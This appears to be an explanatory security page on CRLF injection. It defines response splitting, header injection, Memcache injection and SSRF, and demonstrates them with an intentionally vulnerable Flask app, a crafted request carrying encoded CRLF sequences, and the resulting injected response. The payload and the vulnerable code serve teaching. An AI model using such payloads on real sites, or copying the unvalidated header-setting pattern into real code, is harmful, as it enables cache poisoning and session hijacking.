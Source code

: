 CRLF injection is a vulnerability where an attacker manages to inject a CRLF sequence (carriage return and line feed) into the response, allowing them to manipulate the response body and/or headers.

CRLF injection attacks include:

- **HTTP Response Splitting** 

An attack where an attacker inserts CRLF sequences into user input, aiming to manipulate the HTTP response generated by the web application. This can lead to various consequences, such as injecting malicious content or crafting misleading responses.
 
- **HTTP Header Injection** 

Involves injecting CRLF sequences into HTTP headers. This attack can lead to security issues, allowing an attacker to add or modify headers, potentially leading to cache poisoning, session fixation, or other forms of web application compromise.
 
- **Memcache Injection**

A type of CRLF attack that targets systems utilizing Memcached, a distributed memory caching system. Attackers inject CRLF sequences to manipulate the content stored in Memcached, possibly leading to cache poisoning, information disclosure, or denial of service.

- **Server-Side Request Forgery:** 

A broader attack that sometimes involves CRLF injection. In this scenario, an attacker tricks the server into making requests to internal resources by injecting malicious input containing CRLF sequences. The attacker may exploit this to access sensitive information, pivot through internal systems, or perform unauthorized actions on behalf of the server.


=== Python
  ```python
  import flask
  from flask import request
  from flask import make_response
  
  app = flask.Flask(__name__)
  
  @app.route("/")
  def index():
      header = request.args.get("header")
      username = request.args.get("username")
      resp = make_response("Hello: %s" % username)
      resp.headers.set(header, username)
      return resp
  
  app.run(host="0.0.0.0", port=8080)
  ```

=== Request
  ```http
  GET /?header=GET%20/?name=A:a%0a%0dA:d%0d%0d%0a%0dInjected-Header&username=abc HTTP/1.1
  Host: localhost
  User-Agent: Mozilla/5.0
  Referrer: http://localhost/
  ```

=== Response
  ```http
  HTTP/1.1 200 OK
  Server: Werkzeug/2.3.7 Python/3.10.12
  Date: Tue, 09 Jan 2024 11:03:05 GMT
  Content-Type: text/html; charset=utf-8
  Content-Length: 10
  GET /?name=A:a
  
  A:d
  
  
  Injected-Header: abc
  Connection: close
  
  Hello: abc
  ```